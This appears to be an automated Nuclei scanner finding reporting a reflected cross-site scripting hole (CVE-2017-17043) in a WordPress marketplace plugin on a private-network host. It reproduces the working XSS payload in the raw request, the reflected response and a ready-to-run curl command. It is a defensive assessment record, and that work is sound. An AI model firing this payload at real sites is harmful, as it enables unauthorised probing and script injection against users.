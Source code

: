 ### Emag Marketplace Connector 1.0 - Reflected Cross-Site Scripting (XSS) (CVE-2017-17043) found on http://192.168.198.179:8080/
---
**Details**: **CVE-2017-17043**  matched at http://192.168.198.179:8080/

**Protocol**: HTTP

**Full URL**: http://192.168.198.179:8080/wp-content/plugins/emag-marketplace-connector/templates/order/awb-meta-box.php?post=%3C%2Fscript%3E%3Cscript%3Ealert%28document.domain%29%3C%2Fscript%3E

**Timestamp**: Wed Jun 8 20:22:19 +0100 BST 2022

**Template Information**

| Key | Value |
|---|---|
| Name | Emag Marketplace Connector 1.0 - Reflected Cross-Site Scripting (XSS) |
| Authors | daffainfo |
| Tags | cve, cve2017, wordpress, xss, wp-plugin |
| Severity | medium |
| Description | The Emag Marketplace Connector plugin 1.0.0 for WordPress has reflected XSS because the parameter "post" to /wp-content/plugins/emag-marketplace-connector/templates/order/awb-meta-box.php is not filtered correctly. |
| CVSS-Metrics | [CVSS:3.0/AV:N/AC:L/PR:N/UI:R/S:C/C:L/I:L/A:N](https://www.first.org/cvss/calculator/3.0#CVSS:3.0/AV:N/AC:L/PR:N/UI:R/S:C/C:L/I:L/A:N) |
| CWE-ID | [CWE-79](https://cwe.mitre.org/data/definitions/79.html) |
| CVE-ID | [CVE-2017-17043](https://cve.mitre.org/cgi-bin/cvename.cgi?name=cve-2017-17043) |
| CVSS-Score | 6.10 |

**Request**
```http
GET /wp-content/plugins/emag-marketplace-connector/templates/order/awb-meta-box.php?post=%3C%2Fscript%3E%3Cscript%3Ealert%28document.domain%29%3C%2Fscript%3E HTTP/1.1
Host: 192.168.198.179:8080
User-Agent: Mozilla/5.0 (Windows NT 6.3; WOW64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/41.0.2226.0 Safari/537.36
Connection: close
Accept: */*
Accept-Language: en
Accept-Encoding: gzip


```

**Response**
```http
HTTP/1.0 200 OK
Connection: close
Content-Length: 274
Content-Type: text/html

<HTML><HEAD><TITLE>File Not Found</TITLE></HEAD><BODY><H1>Cannot find this file.</H1>The requested file: <B>/wp-content/plugins/emag-marketplace-connector/templates/order/awb-meta-box.php?post=</script><script>alert(document.domain)</script></B> was not found.</BODY></HTML>
```

References: 
- https://nvd.nist.gov/vuln/detail/cve-2017-17043
- https://wordpress.org/support/topic/wordpress-emag-marketplace-connector-1-0-cross-site-scripting-vulnerability/
- https://packetstormsecurity.com/files/145060/wpemagmc10-xss.txt
- https://wpvulndb.com/vulnerabilities/8964

**CURL Command**
```
curl -X 'GET' -d '' -H 'Accept: */*' -H 'Accept-Language: en' -H 'User-Agent: Mozilla/5.0 (Windows NT 6.3; WOW64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/41.0.2226.0 Safari/537.36' 'http://192.168.198.179:8080/wp-content/plugins/emag-marketplace-connector/templates/order/awb-meta-box.php?post=%3C%2Fscript%3E%3Cscript%3Ealert%28document.domain%29%3C%2Fscript%3E'
```
---
Generated by [Nuclei 2.7.1](https://github.com/projectdiscovery/nuclei)